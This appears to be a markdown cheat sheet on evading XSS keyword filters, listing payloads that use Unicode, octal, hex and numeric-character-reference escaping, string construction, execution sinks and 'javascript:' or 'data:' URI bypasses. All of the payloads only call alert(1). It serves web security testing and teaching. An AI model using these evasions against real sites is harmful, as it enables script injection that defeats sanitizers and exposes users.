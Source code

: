 There are filters that focuses on blocking the user of certain keywords, such as `alert`, `javascript`, `eval`, etc...
## Character Escaping via Unicode
Here we see Unicode escaping without using native functions:
```javascript
<script>\u0061lert(1)</script>
<script>\u0061\u006\u0065\u0072\u0074(1)</script>
```
Here we see Unicode escaping using native functions.
```javascript
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```
## Character Escaping via Decimal, Octal, Hexadecimal
If the filtered vector is within a string, in addition to Unicode, there are multiple escapes we may adopt:
- `<img src=x onerror="\u0061lert(1)"/>`
- `<img src=x onerror="eval('\141lert(1)')"/>` using Octal escape
- `<img src=x onerror="eval('\x61lert(1)')"/>` using Hexadecimal escape
- `<img src=x onerror="&#x0061;lert(1)"/>` using Hexadecimal NCR
- `<img src=x onerror="&#97;lert(1)"/>` using Decimal NCR
- `<img src=x onerror="eval('\a\l\ert\(1\)')"/>` using Superfluous escapes characters
>Note: NCR means Numeric Character Reference

Finally, all character escaping can stay together, for example:
```txt
<img src=x onerror="\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>
```
## Constructing Strings
Constructing strings can help in bypassing filters. For example, if the usual `alert` keyword is blocked, most likely `"ale"+"rt"` is note detected.

JavaScript has several functions useful to create strings:
```javascript
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
177985081..toString(36)
```
## Execution Sinks
Technically, functions that parse string as JavaScript code are called execution sinks, and JavaScript offers several alternatives. Below are some examples of sinks:
```javascript
setTimeout("JSCode") //all browsers
setInterval("JSCode") //all browsers
setImmediate("JSCode") //IE 10+
Function("JSCode") //all browsers
```
An interesting variation of the Function sink is:
```javascript
	[].constructor.constructor(alert(1))
    ^        ^          ^         ^
  object   array     Function   XSS Vector
```
## Pseudo-Protocols
Unofficial URI schemes, such as `javascript:` is commonly referred to as a pseudo-protocol. This specific pseudo-protocol is used to invoke JavaScript code within a link.
> Note: `javascript:` is not needed on event handlers, so we should avoid using it.

Typically the keyword `javascript:` is also commonly blocked, the following are some examples to bypass this:
- `object data="JaVaScRiPt:alert(1)">`
- `object data="javascript&colon;alert(1)">`
- `<object data="javascript&#x003A;alert(1)">`
- `<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;alert(1)">`

Additionally, there is also `data:`. For example:
- `<object data="data:text/html,<script>alert(1)</script>">`
- `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`

If `data:` is blocked, the following is an example of a bypass:
- `<embed code="DaTa:text/html,<script>alert(1)</script>">`
- `<embed code="data&#x003A;text/html,<script>alert(1)</script>">`